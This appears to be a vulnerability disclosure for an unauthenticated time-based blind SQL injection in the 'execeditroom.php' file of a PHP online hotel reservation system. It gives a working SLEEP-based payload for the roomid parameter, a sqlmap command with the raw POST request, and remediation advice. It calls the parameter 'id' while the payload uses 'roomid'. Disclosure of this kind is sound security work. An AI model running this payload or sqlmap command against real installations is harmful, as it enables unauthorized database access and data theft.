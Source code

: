 # Online Hotel Reservation System In PHP With Source Code execeditroom.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'execeditroom.php' file of the 'Online Hotel Reservation System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Hotel Reservation System In PHP With Source Code", K1nako discovered a critical SQL injection vulnerability in the "execeditroom.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: roomid=1'+(SELECT 0x5452434f WHERE 8534=8534 AND (SELECT 4485 FROM (SELECT(SLEEP(5)))zEbz))+'
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250806152108665](assets/image-20250806152108665.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/execeditroom.php HTTP/1.1
Host: 192.168.248.130:8883
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Sec-Purpose: prefetch;prerender
Purpose: prefetch
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

roomid=1*
```

# Attack results

![image-20250806152141676](assets/image-20250806152141676.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.